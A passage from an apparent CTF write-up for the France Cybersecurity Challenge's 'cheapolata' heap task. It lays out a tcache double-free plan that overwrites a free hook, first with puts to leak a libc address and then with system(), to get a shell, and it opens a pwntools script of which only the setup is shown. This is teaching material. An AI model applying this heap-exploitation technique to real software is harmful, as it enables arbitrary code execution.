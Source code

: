 We're able to overwrite `old_free_hook` with `puts@plt`, this gives us an arbitrary read. However, once `old_free_hook` is replaced, we will no longer be able to free anymore.
Given the arbitrary read, we can hijack a fd pointer with any address and leak with `free()`, the fake chunk also needs to have a correct size to pass the size check (below 0x40). We can either leak the `GOT` of `free()` or `stderr` (the stderr of the binary) to get a libc address, we'll use `stderr` for this exploit.

##### The plan

Overwrite tcache entries 0x20, 0x30 and 0x40 with the address of `stderr` (I'm talking about the stderr of the binary), `old_free_hook` and `old_free_hook`, we'll see why later.

First malloc a 0x28 sized chunk (malloc will convert it to 0x30) to overwrite `old_free_hook` with `puts@plt` to get arbitrary read.
Then malloc a 1 sized chunk (converted to 0x20), it will overwrite the LSB of `stderr` but the leak will still be usable because the 24 bit lower bits are not affected by ASLR. Leak `stderr` with `free()` (replaced by `puts@plt`).

Finally, malloc a 0x38 sized chunk (converted to 0x40) to overwrite `old_free_hook` to `system()`, malloc a "/bin/sh\0" chunk and free it to get a shell!

**TLDR**
- double free to hijack `tcache_perthread_struct` and overwrite tcache entries 0x20, 0x30 and 0x40 with `&stderr`, `old_free_hook` and `old_free_hook`
- overwrite `old_free_hook` with puts and leak stderr
- overwrite `old_free_hook` with `system()` and get a shell.

Here's the script:
```py
from pwn import *
import pwn
import random as rnd
import struct as st
from time import sleep

context.arch = "amd64"
context.word_size = 64

file = "./cheapolata_patched"
args = []
io: process = None

speed = 0.1

def debug():
    gdb.attach(io, gdbscript=
    """
    define current
    x/10xg (void*)a-0x10
    end
    """)
    input("debug")

def launch_remote():
    global file, io
    io = remote(host="challenges.france-cybersecurity-challenge.fr", port=2106)

def launch_local():
    global file, io
    pty = process.PTY
    # io = remote(host="localhost", port=1234)
    io = process([file, *args], stdin=pty, stdout=pty) # stdin=pty to avoid pwntools messing with the file structures and the heap because the challenge does not call setvbuf()
    # debug()

u64 = lambda d: pwn.u64(d.ljust(8, b"\0")[:8])
```